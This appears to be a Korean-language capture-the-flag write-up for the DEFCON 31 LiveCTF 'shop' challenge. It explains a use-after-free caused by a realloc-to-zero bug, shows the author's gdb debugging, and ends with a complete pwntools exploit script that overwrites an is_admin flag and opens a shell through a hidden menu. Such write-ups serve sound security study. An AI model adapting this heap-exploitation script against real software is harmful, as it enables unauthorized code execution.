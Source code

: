 ```yaml
---
title: DEFCON 31 LiveCTF - shop
date: 2024-07-16 00:00:00 +0900
categories: [CTF, Pwnable]
tags: [ctf, pwnable, uaf]
render_with_liquid: false
---
```

## 0x00. Introduction

``` bash
[*] '/home/user/uaf'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

### Structures

``` c
struct credential {
    char is_admin;      // alignment 때문에 어차피 8바이트를 차지
    struct shelf *shelf_ptr;
    char *username;
    char *password;
    struct credential *next_cred;
}

struct shelf {
    long count;
    struct item *item_ptr;
}

struct item {
    long number;
    long price;
    char *name;
    char *description;
}
```

### Goal

``` c
unsigned __int64 hidden_1C83()
{
  unsigned __int64 v1; // [rsp+8h] [rbp-8h]

  v1 = __readfsqword(0x28u);
  if ( LOBYTE(login_info_4108->is_admin) )
    system("/bin/sh");
  else
    puts("Not an admin");
  return v1 - __readfsqword(0x28u);
}
```

로그인 이후의 메뉴에서 7번을 선택하면 호출되는 숨겨진 `hidden_1C83()`이 존재한다.

여기에서 `login_info`의 첫 바이트, 즉 `is_admin`의 값이 0이 아니면 쉘을 띄워준다.

## 0x01. Vulnerability

``` c
unsigned __int64 add_item_1357()
{
  ...
      tmp = realloc(shelf_ptr->item_ptr, 0x20 * (shelf_ptr->count + 1));
      if ( tmp )
      {
        ++shelf_ptr->count;
        shelf_ptr->item_ptr = tmp;
        memcpy(&shelf_ptr->item_ptr[shelf_ptr->count - 1], &selected, sizeof(shelf_ptr->item_ptr[shelf_ptr->count - 1]));
      }
  ...
}

unsigned __int64 remove_item_14B6()
{
  ...
      tmp = realloc(shelf_ptr->item_ptr, 0x20 * (shelf_ptr->count - 1));
      if ( tmp )
      {
        --shelf_ptr->count;
        shelf_ptr->item_ptr = tmp;
      }
      else
      {
        puts("Error removing item");
      }
  ...
}
```

`add_item_1357()`에서 item을 추가하면 `item_ptr`에 힙 영역이 할당된다.

이것을 `remove_item_14B6()`에서 item을 삭제할 때 청크 사이즈만 줄여서 재할당하는데 사이즈가 0이 됐을 때 `realloc()`에서 `NULL`이 리턴된다.

그런데 `item_ptr`의 값이 초기화되지 않고 그대로 남아있고, 삭제 이후 다시 `add_item_1357()`을 호출할 때 해제된 영역에 접근이 가능하기 때문에 UAF 취약점이 존재한다.

## 0x02. Exploit

``` c
unsigned __int64 open_account_1932()
{
  ...
      tmp = malloc(0x28uLL);
      LOBYTE(tmp->is_admin) = 0;
  ...
}
```

`open_account_1932()`를 보면 계정을 생성하고 바로 `is_admin`을 0으로 만든다.

따라서 A 계정을 만들고 item을 추가 후 삭제하여 해제된 영역을 B 계정의 `credential` 구조체가 가리키도록 exploit을 구성했다.

-   open_account A
-   add_item 1
-   remove_item 0
-   logout
-   open_account B

이러한 순서로 페이로드를 작성해서, A의 `item_ptr`과 B의 `credential`이 같은 영역에 위치하게 만들 수 있고,

-   login as A
-   add_item 2

다시 A로 로그인한 후에 item을 추가해서 `item.number`를 복사하는 과정에서 `is_admin`이 덮이는 시나리오를 생각했으나...

``` bash
# Credential of B - BEFORE
gef➤  x/5gx 0x0000555555559330
0x555555559330: 0x0000000555555500      0x00005555555593a0
0x555555559340: 0x0000555555559360      0x0000555555559380
0x555555559350: 0x0000000000000000

# Credential of B - AFTER
gef➤  x/5gx 0x0000555555559330
0x555555559330: 0x0000000555555559      0x4ec540a62b019163
0x555555559340: 0x0000555555559360      0x0000555555559380
0x555555559350: 0x0000000000000000
```

쉘이 떨어져서 실제 값이 잘 덮였는지 확인해보니 `item.number`가 아닌 엉뚱한 값으로 덮여있었다.

그래서 다시 면밀하게 디버깅을 해본 결과 `memcpy` 부분이 아니라 `realloc` 부분에서 값이 변경되는 것을 확인했다.

곰곰이 생각해보니 다음과 같은 문제가 있었다.

1.  `remove_item_14B6()`에서 `realloc()`이 `NULL`을 리턴해서 `item_ptr` 초기화는 물론 `count` 값도 작아지지 않음
2.  다시 `add_item_1357()`를 하는 과정에서 `count` 값이 아직 1이므로 0x40만큼 `realloc()`을 요청함
3.  사이즈도 맞지 않거니와 B의 `credential`이 있는 영역은 다시 `free`된 적도 없기 때문에 아예 다른 영역이 할당됨

결과적으로는 `realloc` 과정에서 뭔가 dummy 데이터가 쓰여지면서 `is_admin`이 덮이게 되어 다행히 exploit이 성공한다.

솔직히 이게 intended solution인지 잘 모르겠다... ㅋㅋㅋㅋ

## 0x03. Payload

``` python
from pwn import *
from pwnlib.util.packing import p32, p64, u32, u64
import sys

BINARY = "uaf"
LIBRARY = "libc.so.6"

code_base = 0x0000555555554000
bp = {
    'main' : code_base + 0x1DC7,
    'open_account' : code_base + 0x1932,
    'hidden' : code_base + 0x1C83,
}

gs = f'''
b *{bp['open_account']}
b *{bp['hidden']}
continue
'''
context.terminal = ['tmux', 'splitw', '-hf']

def menu(s, inputs: list) :
    for i in range(len(inputs)):
        r = s.recvuntil(b': ').decode()
        if i == 0:
            print(r.split('\n')[int(inputs[i]) - 1])
        s.sendline(inputs[i].encode())
    return

def main():
    if(len(sys.argv) > 1):
        s = remote("0.0.0.0", int(sys.argv[1]))
    else:
        s = process(BINARY, env={"LD_PRELOAD" : LIBRARY})
        gdb.attach(s, gs)
    elf = ELF(BINARY)
    lib = ELF(LIBRARY)

    menu(s, ['2', 'aaaa', '1111'])  # open_account of A
    menu(s, ['2', '1'])             # add_item 1
    menu(s, ['3', '0'])             # remove_item 0
    menu(s, ['5'])                  # logout
    menu(s, ['2', 'bbbb', '2222'])  # open_account of B
    menu(s, ['5'])                  # logout
    menu(s, ['3', 'aaaa', '1111'])  # login as A
    menu(s, ['2', '2'])             # add_item 2
    menu(s, ['5'])                  # logout
    menu(s, ['3', 'bbbb', '2222'])  # login as B
    menu(s, ['7'])                  # hidden
    s.interactive()

if __name__=='__main__':
    main()
```